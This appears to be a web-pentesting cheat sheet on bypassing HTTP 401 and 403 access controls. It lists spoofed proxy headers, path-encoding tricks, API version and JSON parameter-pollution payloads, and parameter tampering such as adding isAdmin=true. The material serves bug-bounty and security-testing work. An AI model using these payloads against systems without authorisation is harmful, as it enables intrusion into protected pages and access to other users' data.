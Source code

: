 # Bypass 401 & 403

## [HTTP Verbs Tampering](https://book.bugbountyhub.xyz/pentesting-web/http-verb-tampering)

Try using **different verbs** to access the file: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`

## HTTP Headers Fuzzing

Try using HTTP Proxy **Headers**, HTTP Authentication Basic and NTLM brute-force (with a few combinations only) and other techniques.

```http
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Host: localhost
```

If the **path is protected** you can try to bypass the path protection using these other headers:

```http
X-Original-URL: /admin
X-Rewrite-URL: /admin
```

## Path **Fuzzing**

If `/admin` is **blocked**:

* Try using `/%2e/admin` _(if access is blocked by a proxy, this could bypass the protection)._
* _Try also `/%252e/admin`_ (double URL encode)
* Try **Unicode bypass**: `/%ef%bc%8fadmin` (The URL encoded chars are like "/") so when encoded back it will be `//admin` and maybe you will have already bypassed the `/admin` name check

Other `/admin` bypasses:

* `site.com/admin` –> HTTP 403 Forbidden
* `site.com/ADMIN` –> HTTP 200 OK
* `site.com/admin/` –> HTTP 200 OK
* `site.com/admin/.` –> HTTP 200 OK
* `site.com//admin//` –> HTTP 200 OK
* `site.com/./admin/..` –> HTTP 200 OK
* `site.com/;/admin` –> HTTP 200 OK
* `site.com/.;/admin` –> HTTP 200 OK
* `site.com//;//admin` –> HTTP 200 OK
* `site.com/admin.json` –> HTTP 200 OK (_ruby_)

Use all [**this list**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt) in the following situations:

* `/FUZZsecret`
* `/FUZZ/secret`
* `/secretFUZZ`

Some API bypasses:

* `/v3/users_data/1234` –> 403 Forbidden
* `/v1/users_data/1234` –> 200 OK
* `{“id”:111}`-> 401 Unauthriozied
* `{“id”:[111]}`-> 200 OK
* `{“id”:111}`-> 401 Unauthriozied
* `{“id”:{“id”:111}}` -> 200 OK
* `{"user_id":"<legit_id>","user_id":"<victims_id>"}` (_JSON Parameter Pollution_)
* `user_id=ATTACKER_ID&user_id=VICTIM_ID` (_Parameter Pollution_)

## **Parameter Manipulation** <a href="#parameter-manipulation" id="parameter-manipulation"></a>

* Change **param value**: From **`id=123` --> `id=124`**
* Add additional parameters to the URL: `?`**`id=124` —-> `id=124&isAdmin=true`**
* Remove the parameters
* Re-order parameters
* Use special characters
* Perform boundary testing in the parameters — provide values like _-234_ or _0_ or _99999999_

## **Protocol version** <a href="#protocol-version" id="protocol-version"></a>

If using `HTTP/1.1` **try to use 1.0** or even test if it **supports 2.0**.
